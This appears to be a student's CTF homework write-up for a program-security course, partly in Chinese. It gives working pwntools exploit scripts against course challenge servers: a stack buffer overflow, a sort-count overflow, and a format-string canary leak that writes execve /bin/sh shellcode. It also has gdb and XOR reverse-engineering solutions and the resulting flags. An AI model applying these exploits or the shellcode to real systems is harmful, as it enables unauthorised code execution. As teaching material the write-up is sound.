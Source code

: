 # Program Security Hw00

### HelloWorld

```
Just copy past!!

FLAG{Hello CTF}
```

### Pwn1

直接將Return Address蓋掉即可

```python=
#!/usr/bin/env python

from pwn import *

r = remote('csie.ctf.tw', 10120)

payload = '0123456789012345678901234567890100000000'
+ '\x66\x05\x40\x00\x00\x00\x00\x00'

r.sendline(payload)
r.interactive()
```
```
Get Shell!
$ cd /home/pwn1 && cat flag

FLAG{BuFFer_0V3Rflow_is_too_easy}
```


### BubbleSort
在要求輸入需要sort幾個elment的部分發現輸入負數會導致程式進行overflow的sort
因此，我們可利用這個漏洞來達到將return address置換成我們所需要的值。

```python=
#!/usr/bin/env python
#
from pwn import *

payload = '127' + '\n' + '134514048 '
 + '0 ' * 126 + '\n' + '-125\n'

r = remote('csie.ctf.tw', 10121)
r.sendline(payload)
r.interactive()
```
```
Get Shell!!
$ cd /home/BubbleSort && cat flag

FLAG{Bubble_sort_is_too_slow_and_this_question_is_too_easy}
```

### ret222
本題ASLR, NX, Canary, PIE都有
有format string的漏洞 bss section是可寫入的並且在最後exit前會用mprotect讓此區域變成可執行
因此將shellcode寫入到bss區域在利用leak canary的方式去繞過canary並複寫main的return address

```python=
#!/usr/bin/env python

from pwn import *

setName = "1"
getName = "2"
setData = "3"
exit = "4"

base = 0
startMainAddr = 0
offset = long(0x24b60)
# context.log_level = 'DEBUG'


def Wait():
    sleep(0.5)


def Leak(payload, isString = False):
    
    r.sendline(setName)
    Wait()
    r.sendline(payload)
    Wait()
    r.sendline(getName)
    Wait()

    resp = r.recvline_contains('.AAA')[7:-23]
    
    if isString == False:
        return long(resp, 16)
    else:
        return resp



def LeakBase():
    global base

    payload = "%24$p.AAA"

    resp = Leak(payload) 

    base = resp & (~0xfff)
    print "base:", str(hex(base))


def LeakAddr(addr):
    
    print "leaking:", hex(addr)
    
    SetTarget(addr)

    payload = "%7$s.AAA"  
    resp = Leak(payload, True)

    print "Response:", resp

    return resp

def SetTarget(addr):
    
    payload = 'ABCDEFGH' + p64(addr)

    r.sendline(setData)
    Wait()
    r.sendline(payload)
    Wait()
    

def OverWrite(val):
    if ord(val) > 0:
        payload = "%" + str(ord(val)) + "c%7$nAA" 
    else:
        payload = "%7$nAA"
    r.sendline(setName)
    Wait()
    r.sendline(payload)
    Wait()
    r.sendline(getName)
    Wait()
    

def OverWriteOneByte(addr, val):

    SetTarget(addr)

    resp = Leak("%7$p.AAA")
    print "check write to stack:", str(hex(resp))
    # raw_input('#')
    
    OverWrite(val)

    print "Set Target:", str(hex(addr)), "value:", str(hex(ord(val)))

def LeakCanary():
    
    print "Leak Canary: "
    payload = '%23$p.AAA'
    
    resp = Leak(payload)
    print "Response:", str(hex(resp))

    return resp


# r = process('./ret222')
r = remote('csie.ctf.tw', 10122)

LeakBase()
canary = LeakCanary()
log.success('Canary: ' + str(canary))



shellcode = '\x48\xc7\xc0\x3b\x00\x00\x00\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\x48\xc7\xc6\x00\x00\x00\x00\x48\xc7\xc2\x00\x00\x00\x00\x0f\x05'

LeakAddr(base+long(0x202030))
for i in range(0,len(shellcode)):
    OverWriteOneByte(base + long(i) + long(0x202030), shellcode[i])

r.sendline(setData)
Wait()
r.sendline('ABCDEFGH' + 'A'*128 + p64(canary) + 'A'*8 + p64(base+long(0x202030)))
Wait()

r.sendline(exit)
Wait()

r.interactive()

```
```
$ cat home/ret222/flag
FLAG{YOU_ARE_REALLY_SMART!!!!!!}
```

### Rev1
```
# Entering gdb console

$ gdb rev1
(gdb) break main
(gdb) r
(gdb) call print_flag()

FLAG{_reverse_is_fun}
```

### Rev2

查詢"Try harder" 在哪邊被使用過
之後找到一連串的xor以及cmp instruction
做Reverse之後得到flag

詳細如下

#### 0x401101
```
loc_401101:             ; uType
push    30h
push    offset Caption  ; lpCaption
push    offset aTryHarder ; "Try harder!"
push    0               ; hWnd
call    ds:MessageBoxA
mov     eax, 1

...

```

![](https://i.imgur.com/O8BPyZW.png)

#### unk_4120BC 
```
    0x8a808d8bb794fcbe93b8a3938fbef8afa79381ffb1 
    
    xor with 0xccccccc...
    
    Get flag FLAG{X0r_to_Cr4ck_M3}
```
    
